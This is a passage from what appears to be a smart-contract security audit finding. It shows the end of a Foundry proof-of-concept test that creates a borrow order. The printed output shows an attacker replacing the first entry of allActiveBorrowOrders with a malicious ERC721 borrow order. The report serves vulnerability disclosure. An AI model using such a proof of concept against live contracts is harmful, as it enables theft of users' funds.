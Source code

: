 ```solidity
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        ratio[0] = 5e17;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = makeAddr("Alice");
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        deal(USDC, borrower, 1000e18, false);

        vm.startPrank(borrower);

        USDCContract.approve(address(DBOFactoryContract), 11e18);
        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            1400,
            864000,
            acceptedPrinciples,
            USDC,
            false,
            0,
            oraclesPrinciples,
            ratio,
            address(0x0),
            10e18
        );

        vm.stopPrank();

    }
    
}
```

Output:

```solidity
Borrow order at index 0 before the attack: 0x4f81992FCe2E1846dD528eC0102e6eE1f61ed3e2
Borrow order at index 0 after the attack: 0xCB6f5076b5bbae81D7643BfBf57897E8E3FB1db9
```

The attacker successfully replace the 0th index in `allActiveBorrowOrders` with malicious erc721 borrow order address

### Tool Used
